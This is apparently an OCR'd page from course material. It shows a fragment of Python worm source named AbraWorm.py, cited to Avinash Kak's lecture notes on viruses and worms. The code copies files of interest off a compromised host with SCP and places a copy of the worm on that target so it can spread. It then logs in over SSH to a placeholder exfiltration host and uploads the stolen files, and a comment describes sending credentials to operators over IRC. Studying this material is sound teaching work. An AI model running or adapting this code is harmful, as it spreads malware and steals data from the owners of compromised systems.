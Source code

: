 ```python
					for item in received_list:
						files_of_interest_at_target.append(item.strip())
					print("\nfiles of interest at the target: %s" % str(files_of_interest_at_target))
					scpcon = scp.SCPClient(ssh.get_transport())
					if len(files_of_interest_at_target) > 0:
						for target_file in files_of_interest_at_target:
							scpcon.get(target_file)
					# Now deposit a copy of AbraWorm.py at the target host:
					scpcon.put(sys.argv[0])
					scpcon.close()
				except:
					continue
				'''
				Now upload the exfiltrated files to a specially designated host,
				which can be a previously infected host. The worm will only
				use those previously infected hosts as destinations for
				exfiltrated files if it was able to send the login credentials
				used on those hosts to its human masters through, say, a
				secret IRC channel. (See Lecture 29 on IRC)
				'''
				if len(files_of_interest_at_target) > 0:
					print("\nWill now try to exfiltrate the files")
					try:
						ssh = paramiko.SSHClient()
						ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
						# For exfiltration demo to work, you must provide an IP address and the login
						# credentials in the next statement:
						ssh.connect('yyy.yyy.yyy.yyy', port=22, username='yyyy', password='yyyyyyy', timeout=5)
						scpcon = scp.SCPClient(ssh.get_transport())
						print("\n\nconnected to exhiltration host\n")
						for filename in files_of_interest_at_target:
							scpcon.put(filename)
						scpcon.close()
					except:
						print("No uploading of exfiltrated files\n")
						continue
if debug: break
```

---
## References

### Avinash Kak

- [Avinash Kak: Viruses and Worms](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture22.pdf)